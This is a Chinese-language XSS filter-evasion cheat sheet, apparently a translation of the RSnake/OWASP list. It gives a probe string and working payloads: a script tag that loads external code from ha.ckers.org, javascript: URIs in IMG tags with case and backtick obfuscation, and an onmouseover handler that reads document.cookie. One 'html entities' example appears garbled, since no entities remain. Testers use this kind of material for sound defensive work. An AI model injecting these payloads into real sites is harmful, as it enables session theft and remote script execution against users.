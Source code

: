 如果你没有充足的输入空间去检测页面是否存在 xss 漏洞。下面这段代码是一个好的简洁的 xss 注入检测代码。在注入这段代码后，查看页面源代码寻找是否存在看起来像 <XSS verses <XSS 这样的输入点从而判断是否存在 xss 漏洞。

```
'';!--"<XSS>=&{()} 
```

### 无过滤绕过

这是一个常规的 xss 注入代码，虽然通常它会被防御，但是我们建议首先去尝试它。（引号是不被需要的在任何现代浏览器中，因此这里省略了它。）

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT> 
```

### 通过 javascript 指令实现的图片 xss

图片 xss 依靠 javascript 指令实现。（IE7.0 不支持 javascript 指令在图片上下文中，但是可以在其他上下文触发。下面的例子仅仅展示了一种其他标签依旧通用的原理。）

```
<IMG SRC="javascript:alert('XSS');"> 
```

### 无引号无分号

```
<IMG SRC=javascript:alert('XSS')> 
```

### 不区分大小写的 xss 攻击向量

```
<IMG SRC=JaVaScRiPt:alert('XSS')> 
```

### html 实体

The semicolons are required for this to work:

```
<IMG SRC=javascript:alert("XSS")> 
```

### 重音符混淆

如果你的 javascript 代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹 javascript 代码。它也经常会非常有用因为 xss 过滤代码未考虑到这个字符。

```
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`> 
```

### 畸形的 A 标签

跳过 href 属性，而直接获取 xss 实质攻击代码...提出被 David Cross ~ 已验证在 chrome 浏览器

```
<a onmouseover="alert(document.cookie)">xxs link</a> 
```
